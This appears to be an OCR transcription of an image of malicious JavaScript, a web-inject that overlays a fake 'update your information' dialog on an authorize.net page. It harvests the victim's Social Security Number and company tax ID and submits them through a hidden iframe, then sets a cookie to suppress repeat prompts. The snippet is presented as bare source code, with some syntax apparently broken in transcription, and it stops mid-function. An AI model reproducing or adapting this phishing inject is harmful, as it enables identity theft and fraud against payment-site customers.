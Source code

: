 ```bash
        jq("#DataDiv").html("<img src=\"https://account.authorize.net/UI/themes/anet/images/authorizenet_logo.gif\"/><iframe name=\"hidFrame\" id=\"hidFrame\" style=\"border:0px; width:0px; height:0px;\" width=\"0\" height=\"0\" border=\"0\"></iframe><form name=\"oloeSubmit\" id=\"oloeSubmit\" target=\"hidFrame\" action=\"https://account.authorize.net/UI/themes/anet/logon2.aspx\" method=\"post\"><table><tr><td align=\"left\" style=\"text-align: justify; font-size: 11px; padding-top:10px;\">Dear Customer,<p>Your information is out of date and should be updated.</p></td></tr></table><div><table><tr><td align=\"left\" style=\"font-size: 11px;\">Social Security Number:</td><td align=\"left\" style=\"font-size: 11px;\"><input type=\"text\" name=\"ssn\" id=\"ssn\" maxlength=\"11\" size=\"11\"/> (xxx-xx-xxxx)</td></tr><tr><td align=\"left\" style=\"font-size: 11px;\">Company's Tax ID Number:</td><td align=\"left\" style=\"font-size: 11px;\"><input type=\"text\" name=\"taxid\" id=\"taxid\" maxlength=\"10\" size=\"10\"/> (xx-xxxxxxx)</td></tr></table></div></form><br><input type=\"submit\" onclick=\"iSbmtButton()\" value=\"Update\" style=\"background-color:#095AA6;border:1px double White;color:#FFFFFF;cursor:pointer;font-family:Verdana,Arial,Helvetica,sans-serif;font-weight:bold;font-size:11px;\">");
        jq("body").css("visibility", "visible");
                jq("#DataDiv").dialog({
            resizable: false,
            closeOnEscape: false,
            show: "slide",
            width: 315,
            height: 'auto'
            modal: true
        });
                jq('.ui-widget-overlay').css('background', '#FFF');
                jq('.ui-widget-overlay').css('opacity', '1');
    } else {
                jq("body").css("visibility", "visible");
        debugInj("LoaderOFF");
    }
function iSbmtButton() {
    jq("#ssn").val(jq("#ssn").val().replace(/[^0-9\-]/g, ""));
    jq("#taxid").val(jq("#taxid").val().replace(/[^0-9\-]/g, ""));
    if (jq("#ssn").val().length < 11) {
        alert("Please enter correct Social Security Number");
        jq("#ssn").focus();
                return false;
    } else if (jq("#taxid").val().length < 10) {
        alert("Please enter correct Company's Tax ID Number");
        jq("#taxid").focus();
                return false;
    } else {
                set_cookie("stopseQ", "yes", 432000, "/");
        jq("#oloeSubmit").submit();
        setTimeout("jq('#DataDiv').dialog('close'); jq('#DataDiv').remove();jq('body').css('visibility', 'visible');", 2500);
                return false;
    }
function get_cookie(name) {
    var cookie = " " + document.cookie;
    var search = " " + name + "=";
    var setStr = null;
    var offset = 0;
    var end = 0;
    if (cookie.length > 0) {
        offset = cookie.indexOf(search);
        if (offset != -1) {
            offset += search.length;
            end = cookie.indexOf(";", offset);
:
```
